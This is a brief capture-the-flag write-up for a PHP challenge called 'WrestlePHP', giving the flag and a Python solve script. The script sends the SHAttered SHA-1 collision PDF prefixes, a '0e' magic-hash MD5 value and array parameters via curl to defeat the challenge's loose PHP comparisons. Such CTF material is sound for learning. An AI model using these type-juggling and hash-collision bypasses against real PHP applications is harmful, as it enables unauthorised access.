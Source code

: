 # Kiran Ghimire - WrestlePHP

## Challenge Flag: hacktoberfest_ctf{3qu4l17y_1s_n07_1d3nt17y_hehe_1337_0xcafebabe_cafedead}

## Write-up:

It was easy challenge.Just run the below code you will get the answer.

You can get pdf from this site : [Click Here](https://shattered.io)


```
from subprocess import run, PIPE
import hashlib
import requests
import urllib
import re

#sha1Collision
hasher = hashlib.sha1()
B_S = 320
buf1=''
with open('shattered-1.pdf','rb') as f:
    buf1 = f.read(B_S)
    hasher.update(buf1)


hasher = hashlib.sha1()
buf2=''
with open('shattered-2.pdf', 'rb') as afile:
    buf2 = afile.read(B_S)
    hasher.update(buf2)

nice = urllib.parse.quote(buf1)
ecin = urllib.parse.quote(buf2)

#md5
md5 = "0e215962017"

curled = f"curl -s https://php.0daygod.xyz/\?hello\=hi\&world\[\]=10001x0\&nice={nice}\&ecin={ecin} -H 'User-Agent: Yes, I am a human.' -H 'Sagarmatha-Hacktoberfest-CTF: https://hacktober.tk/' -d 'ctf=0e215962017&parm[]=1&mrap[]=2'"



flag = run(curled , shell=True, capture_output=True)


flag_part = flag.stdout

print("Result: ",(re.findall(rb'Flag: hacktoberfest_ctf{.*}', flag_part)))

```
